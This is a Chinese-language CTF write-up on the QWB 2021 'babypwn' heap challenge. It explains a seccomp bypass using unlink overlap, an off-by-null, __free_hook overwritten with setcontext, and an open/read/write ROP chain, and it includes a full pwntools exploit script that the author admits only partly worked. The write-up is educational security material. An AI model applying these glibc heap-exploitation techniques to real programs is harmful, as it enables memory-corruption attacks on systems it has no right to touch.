 ```yaml
---
title: 强网杯2021 pwn 赛题解析——babypwn
date: 2023-02-28 23:02:06
categories:
- write-ups
- 其他
---
```

这道题增加了沙箱机制，通过seccomp-tools可以轻松获取沙箱的具体内容。

![](1.png)
其中的重点就是禁用了execve系统调用，无法直接通过one_gadget、system等直接getshell。这种情况下最为常用的利用方式就是set_context函数，具体如何利用，往下看。

本题的逆向分析很简单，注意bss中结构体的识别：前8字节是地址，后8字节是大小。在show函数中发现了一个简单的加密函数：

![](2.png)
其每一轮的计算如下图所示，红色部分是因为溢出而无法计算的部分，每一轮的计算结果就相当于是所有黄色部分对应位异或的结果。
![](3.png)
那么这个函数应该如何解密呢？观察到每一轮的计算又可以分为3小轮，最后一轮是某个值与自身左移13位的异或。第二轮是另外一个值与自身右移17位的异或得到第三轮的初始值。第一轮是输入与输入自身左移5位的异或得到第二轮的初始值。如此设计解密算法也就不难了，相信了解一些算法的读者都能编写脚本。解密函数如下：

```python
def get_bits(value, start, end):
    return (value >> start) & ((1 << (end - start)) - 1)


def decrypt(value):
    for i in range(2):
        low13 = get_bits(value, 0, 13)
        mid13 = get_bits(value, 13, 26)
        mid13 ^= low13
        high6 = get_bits(value, 26, 32)
        high6 ^= get_bits(mid13, 0, 6)
        value = low13 + (mid13 << 13) + (high6 << 26)

        high17 = get_bits(value, 15, 32)
        low15 = get_bits(value, 0, 15)
        low15 ^= get_bits(high17, 2, 17)
        value = low15 + (high17 << 15)

        first5 = get_bits(value, 0, 5)
        second5 = get_bits(value, 5, 10)
        second5 ^= first5
        third5 = get_bits(value, 10, 15)
        third5 ^= second5
        fourth5 = get_bits(value, 15, 20)
        fourth5 ^= third5
        fifth5 = get_bits(value, 20, 25)
        fifth5 ^= fourth5
        sixth5 = get_bits(value, 25, 30)
        sixth5 ^= fifth5
        last2 = get_bits(value, 30, 32)
        last2 ^= get_bits(sixth5, 0, 2)
        value = first5 + (second5 << 5) + (third5 << 10) + (fourth5 << 15) + \
            (fifth5 << 20) + (sixth5 << 25) + (last2 << 30)

    return value
```

通过show函数，我们能够获取到堆块的地址。不过需要注意的是，show函数加密的并非堆块自身的地址，而是堆块前8字节的值。通过调试我们可以发现，在程序初始化时调用的seccomp系列函数会申请一些堆块，我们通过申请到这些堆块有可能使得堆块的前8字节是一个堆块地址，以此来获取堆区地址。

本题的libc环境是2.27版本，有机会改写钩子到setcontext函数【**插一句：在笔者的2.31版本libc中，setcontext函数的栈迁移指令从``mov rsp, [rdi+0xA0]``被改成了``mov rsp,[rdx+0xA0]``，这使得本题在2.31环境下无法利用，因为在执行到这里的时候无法控制rdx的值**】。自然而然地，我们容易想到使用unlink堆块重叠的利用方式。在chunk中写一个假chunk，在假chunk的prev_size写入这个chunk的地址，然后将fd和bk指针写到合适的位置，就能够触发unlink。和同年的easy_diary相比，利用难度还更低些。

![](4.png)
这里需要注意一下edit函数中的一个看似奇怪的函数。这个函数在read之后调用，会将第一个出现的'\x11'字符替换为0x0。乍一看，这个字符并不是字符串的结束符，但转念一想，不难发现这是出题人在为我们创造off by null的条件：'\x11'很有可能是某个chunk的size的最低1字节。可以通过这个特性修改chunk的大小和prev_inuse位。由于chunk的大小被修改了，因此在这个chunk的最后面还需要写上一个有效的size值，最低位为1，以绕过检查。

在成功unlink之后，就可以利用堆块重叠修改tcache chunk的fd指针到__free_hook。将其改写到setcontext内部即可实现栈迁移。然后构造好ROP链，打开文件、读文件、写数据。在笔者的机器上，通过调试将rdx改为与rdi的值相等实现栈迁移，但不知何故打开flag文件总是失败。

exp:（基于20.04，且需要调试修改rdx的值）
```python
from pwn import *

context(arch='amd64', log_level='debug')

io = process('./babypwn')
# io = process(['../../../../ld/ld-2.27.so', './babypwn'], env={"LD_PRELOAD": "./libc.so.6"})
libc = ELF('/lib/x86_64-linux-gnu/libc-2.31.so')
# libc = ELF('./libc.so.6')

def add(size):
    io.sendlineafter(b'>>> ', b'1')
    io.sendlineafter(b'size:', str(size).encode())


def delete(index):
    io.sendlineafter(b'>>> ', b'2')
    io.sendlineafter(b'index:', str(index).encode())


def edit(index, content):
    io.sendlineafter(b'>>> ', b'3')
    io.sendlineafter(b'index:', str(index).encode())
    io.sendafter(b'content:', content)


def show(index):
    io.sendlineafter(b'>>> ', b'4')
    io.sendlineafter(b'index:\n', str(index).encode())
    lodword = int(io.recvuntil(b'\n', drop=True).decode(), 16)
    lodword = decrypt(lodword)
    hidword = int(io.recvuntil(b'\n', drop=True).decode(), 16)
    hidword = decrypt(hidword)
    return lodword + (hidword << 32)

def get_bits(value, start, end):
    return (value >> start) & ((1 << (end - start)) - 1)


def decrypt(value):
    for i in range(2):
        low13 = get_bits(value, 0, 13)
        mid13 = get_bits(value, 13, 26)
        mid13 ^= low13
        high6 = get_bits(value, 26, 32)
        high6 ^= get_bits(mid13, 0, 6)
        value = low13 + (mid13 << 13) + (high6 << 26)

        high17 = get_bits(value, 15, 32)
        low15 = get_bits(value, 0, 15)
        low15 ^= get_bits(high17, 2, 17)
        value = low15 + (high17 << 15)

        first5 = get_bits(value, 0, 5)
        second5 = get_bits(value, 5, 10)
        second5 ^= first5
        third5 = get_bits(value, 10, 15)
        third5 ^= second5
        fourth5 = get_bits(value, 15, 20)
        fourth5 ^= third5
        fifth5 = get_bits(value, 20, 25)
        fifth5 ^= fourth5
        sixth5 = get_bits(value, 25, 30)
        sixth5 ^= fifth5
        last2 = get_bits(value, 30, 32)
        last2 ^= get_bits(sixth5, 0, 2)
        value = first5 + (second5 << 5) + (third5 << 10) + (fourth5 << 15) + \
            (fifth5 << 20) + (sixth5 << 25) + (last2 << 30)
    return value

add(100)                            # chunk 0, used for leaking address
chunk0_addr = show(0)
print(hex(chunk0_addr))
add(0x100)                          # chunk #1
for i in range(7):
    add(0xF0)                       # chunk #2~8
chunk1_addr = chunk0_addr + 0x400

payload = p64(chunk1_addr + 0x10)
payload += p64(0x810 + 0x30 - 0x10)
payload += p64(chunk1_addr - 0x8)
payload += p64(chunk1_addr)
payload += p64(0)
edit(1, payload)

add(0x28)                           # chunk #9
add(0x100)                          # chunk #10
add(0x20)                           # chunk #11, goalkeeper
edit(9, cyclic(0x28))               # this can change the chunk #9's size from 0x511 to 0x500
edit(9, cyclic(0x20) + p64(0x810 + 0x30 - 0x10))        # write correct prev_size
edit(10, cyclic(0xF0) + p64(0) + p64(0x41))

for i in range(7):
    delete(8 - i)                   # delete chunk #2~8
delete(10)

for i in range(2):
    add(0xF0)                       # recover chunk #1, 2
add(0xF0 + 0x100)                   # recover chunk #3
main_arena = show(3) - 96
print(hex(main_arena))
__malloc_hook = main_arena - 0x10
base = __malloc_hook - libc.symbols['__malloc_hook']
__free_hook = base + libc.symbols['__free_hook']
setcontext = base + libc.symbols['setcontext']
openfile = base + libc.symbols['open']
readfile = base + libc.symbols['read']
writefile = base + libc.symbols['write']
poprdi_ret = base + 0x23B6A
poprsi_ret = base + 0x2601F
poprdx_ret = base + 0x142C92
addrsp0x18_ret = base + 0x349ea

add(0xF0 + 0x100)                   # chunk #5
edit(5, cyclic(0xF0) + p64(0) + p64(0x101) + p64(__free_hook))
add(0xF0)                           # chunk #6
add(0xF0)                           # chunk #7, to __free_hook
edit(7, p64(setcontext + 0x3D))     # change __free_hook to setcontext + 0x3D, ready for stack pivoting

add(0xF0 + 0x100)                   # chunk #8
chunk8_addr = chunk1_addr + 0x410

ROP = b'/flag'.ljust(0x30, b'\x00')     # 0x0
ROP += p64(chunk8_addr + 0x10)          # 0x30
ROP += p64(poprsi_ret)                  # 0x38
ROP += p64(2)                           # 0x40
ROP += p64(openfile)                    # 0x48
ROP += p64(poprdi_ret)                  # 0x50
ROP += p64(3)                           # 0x58
ROP += p64(poprsi_ret)                  # 0x60
ROP += p64(chunk8_addr + 0xF0)          # 0x68
ROP += p64(poprdx_ret)                  # 0x70
ROP += p64(0x30)                        # 0x78
ROP += p64(readfile)                    # 0x80
ROP += p64(poprdi_ret)                  # 0x88
ROP += p64(1)                           # 0x90
ROP += p64(addrsp0x18_ret)              # 0x98
ROP += p64(chunk8_addr + 0x40)          # 0xA0
ROP += p64(poprdi_ret)                  # 0xA8
ROP += p64(0xdeadbeef)                  # 0xB0
ROP += p64(poprsi_ret)                  # 0xB8
ROP += p64(chunk8_addr + 0xF0)          # 0xC0
ROP += p64(poprdx_ret)                  # 0xC8
ROP += p64(0x30)                        # 0xD0
ROP += p64(writefile)                   # 0xD8
edit(8, ROP)
gdb.attach(io)
time.sleep(5)
delete(8)

io.interactive()
```
